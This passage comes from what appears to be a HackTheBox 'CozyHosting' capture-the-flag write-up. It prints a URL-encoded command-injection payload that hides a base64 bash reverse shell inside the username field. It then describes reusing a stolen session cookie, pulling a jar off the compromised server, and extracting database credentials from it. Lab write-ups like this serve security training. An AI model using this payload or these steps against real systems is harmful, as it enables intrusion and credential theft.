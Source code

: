 to ensure smaller margin of error to appear, lets encode this payload into a url encoded format via https://www.urlencoder.org/
and resulting in the final payload \
`%3Becho%24%7BIFS%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xMy85OTk5IDA%2BJjEK%22%24%7BIFS%7D%7C%24%7BIFS%7Dbase64%24%7BIFS%7D-d%24%7BIFS%7D%7C%24%7BIFS%7Dbash%3B`

send the payload via the username field in the burpsuite request

![Pasted image 20231006015229](https://github.com/Kae-Desu/hackthebox/assets/87841341/1b9dd956-0903-4698-a0f1-df6cf53560f2)

note: the cookie will much likely to be expire, so try to visit `/actuator/sessions`, get another session and changed the one in line 12
after all are sets, send the payload and check the listener that have been set up

![Pasted image 20231006015341](https://github.com/Kae-Desu/hackthebox/assets/87841341/d239e889-42cc-42e3-8735-2a560c603aa9)

![Pasted image 20231006015353](https://github.com/Kae-Desu/hackthebox/assets/87841341/ad606d62-26e2-4f09-ac5b-2ad604ecbdcf)

got a reverse connection from the server, looks like its logged in as user named 'app' by default, lets check for something interesting in this user

![Pasted image 20231006015741](https://github.com/Kae-Desu/hackthebox/assets/87841341/6392949c-8298-436f-8b51-c97432a6e5f1)

there seems to be a java file there, could be worth decompile it, lets download it for further inspection. first start a python http server in the server

![Pasted image 20231006015941](https://github.com/Kae-Desu/hackthebox/assets/87841341/91d0fc1b-7457-47d6-a5a1-d39788e6ce86)

without the port specified, python will create a server at port 8000, but in my case someone or something use the port 8000 so i have to specify another port which it 7878\
after that, download the file from the server with `wget http://cozyhosting.htb:7878/filename`

![Pasted image 20231006020119](https://github.com/Kae-Desu/hackthebox/assets/87841341/b1d96e19-ac4d-48d1-adb4-fc7d6ed20ec9)

after the file been downloaded, open it in a java decompiler `jd-gui`, its not installed in kali, so makesure to install it, and open it with `jd-gui filename`

![Pasted image 20231006020306](https://github.com/Kae-Desu/hackthebox/assets/87841341/bef53d8e-7a51-4e84-b0f2-3e06fb615716)

after opening it, lets find something interesting such as `BOOT-INF` looks like this will be read everytime it is booted

![Pasted image 20231006020412](https://github.com/Kae-Desu/hackthebox/assets/87841341/b5b383cc-0d8d-49f0-87b4-80b3eeecbcaa)

as expected, theres credentials and something worth looking here such as, a password, the postgres username, the table name and location. and it looks like its running postgres, lets try to connect to the database

![Pasted image 20231006020639](https://github.com/Kae-Desu/hackthebox/assets/87841341/a27ee5b6-6347-4947-bfc1-e8cd882363d1)

![Pasted image 20231006020743](https://github.com/Kae-Desu/hackthebox/assets/87841341/f57be438-5030-4b61-ad12-aa8fbad105dc)

![Pasted image 20231006020814](https://github.com/Kae-Desu/hackthebox/assets/87841341/b3102447-65a9-4c1c-8279-b0ce70efb43e)
